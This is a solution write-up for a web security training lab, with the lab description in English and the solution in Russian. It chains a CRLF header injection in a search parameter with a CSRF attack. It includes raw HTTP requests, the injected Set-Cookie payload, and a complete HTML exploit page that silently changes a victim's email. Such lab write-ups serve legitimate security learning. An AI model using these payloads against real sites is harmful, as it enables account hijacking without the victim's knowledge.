 # CSRF where token is tied to non-session cookie
PRACTITIONER

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

## Решение
В приложении существует уязвимость CRLF Injection в функционале поиска:
```
GET /?search=test HTTP/2
Host: 0a78005803ffc2c6805e214e00600058.web-security-academy.net
Cookie: session=4YJWYdRSbSl0q3pFSFJyXWMysH8etdIK; csrfKey=DgE7UU7ND8ednvVrGGCjUczFruMryf4s
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a78005803ffc2c6805e214e00600058.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
Поисковой запрос "test" встраивается внутрь заголовка Set-Cookie:
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5053
```
Если передать в поле поиска символ переноса строки `%0d%0a`, то можно устанавливать произвольные HTTP-заголовки:
```
GET /?search=test%0d%0ax:1 HTTP/2
```
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
X: 1; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3425
```
Таким способом можно установить произвольный кукис с помощью GET-запроса.

Чтобы сменить пользователю пароль, эксплойт должен содержать валидный CSRF-токен и устанавливать кукис csrfKey из сессии, которой этот токен принадлежит. Установка кукиса осуществляется GET-запросом через CRLFi (тэг img):
```
<html>
<body>
    <form action="https://0a5f005b041b454680f93a1600f00077.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="wiener123@normal-user.net" />
        <input required="" type="hidden" name="csrf" value="aknp0715lH2quctmN4FrqGd2ept2ZqAU" />
    </form>
    <img src="https://0a5f005b041b454680f93a1600f00077.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=TvwHmX0snfxSOqgfKzSIbOPGkIcW8M08%3b%20SameSite=None" onerror="document.forms[0].submit()" >
</body>
</html>
```
Задание выполнено.
